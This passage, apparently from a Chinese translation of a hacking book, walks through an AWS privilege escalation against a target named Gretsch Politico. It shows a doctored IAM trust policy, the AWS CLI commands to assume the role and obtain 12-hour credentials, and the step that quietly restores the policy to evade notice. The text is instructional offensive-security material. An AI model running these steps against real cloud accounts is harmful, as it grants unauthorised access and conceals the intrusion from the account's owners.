列表 10-8：`lambda-dmp-sync`角色的 IAM 角色策略

`AssumeRolePolicyDocument`属性指定了哪些实体被允许假扮给定角色。请注意，唯一被信任来假扮此角色的实体是 AWS Lambda 服务本身（[lambda.amazonaws.com](http://lambda.amazonaws.com)）。为了正确地假扮这个角色，我们需要注册一个新的 Lambda，将其分配给这个新角色，并执行我们喜欢的任何代码。或者，我们也可以更新当前 Lambda 的代码来执行我们的命令。

第三种选择，可能是最简单的一种选择，就是临时更新角色的策略，将 Jenkins 用户包括在内。这个变更不能持续太久，因为在这个特定时间窗口内执行`terraform plan`的任何人都会注意到额外的账户，可能会引起一些怀疑。因此，我们需要迅速行动。我们将修改“假设角色”策略，生成有效期为 12 小时的临时凭证，然后恢复原始策略。完成所有操作的时间不到一秒钟。

在列表 10-9 中，我们将当前角色策略保存到一个文件，并偷偷插入一行`"AWS": "arn:aws:iam::886371554408:user/jenkins"`，以便将 Jenkins 添加为受信任的用户。

```
{
  "Version": "2012-10-17",
  "Statement": [{
     "Effect": "Allow",
     "Principal": {
        "Service": "lambda.amazonaws.com",
        "AWS": "arn:aws:iam::886371554408:user/jenkins"
     },
     "Action": "sts:AssumeRole"
  }]
}
```

列表 10-9：允许 Jenkins 假扮 Lambda 所用 IAM 角色的 IAM 角色策略

我们提交这个新角色策略，并迅速发出`assume-role` API 调用，获取临时凭证来假扮`lambda-dmp-sync`角色：

```
 root@Point1:~/# **aws iam update-assume-role-policy \**
**--role-name lambda-dmp-sync \**
**--policy-document file://new_policy.json**

root@Point1:~/# **aws sts assume-role \**
**--role-arn arn:aws:iam::886371554408:user/lambda-dmp-sync \**
**--role-session-name AWSCLI-Session \**
**--duration-seconds 43200**

"AccessKeyId": "ASIA44ZRK6WSZAFXRBQF",
"SecretAccessKey": "nSiNoOEnWIm8h3WKXqgRG+mRu2QVN0moBSTjRZWC",
"SessionToken": "FwoGZXIvYXdzEL///...
"Expiration": "2019-12-12T10:31:53Z"
```

好的。这些临时凭证将在 12 小时内有效，即使 Jenkins 不再在信任策略中。最后，我们恢复原始策略，以避免任何怀疑：

```
root@Point1:~/# **aws iam update-assume-role-policy \**
**--role-name lambda-dmp-sync \**
**--policy-document file://old_policy.json\**
**--profile jenkins**
```

我们将新密钥加载到 AWS CLI 中，继续探索 Gretsch Politico 的桶 gretsch-streaming-jobs（列表 10-10）。这就是前面章节中提到的`dmp-sync` Lambda 使用的桶。
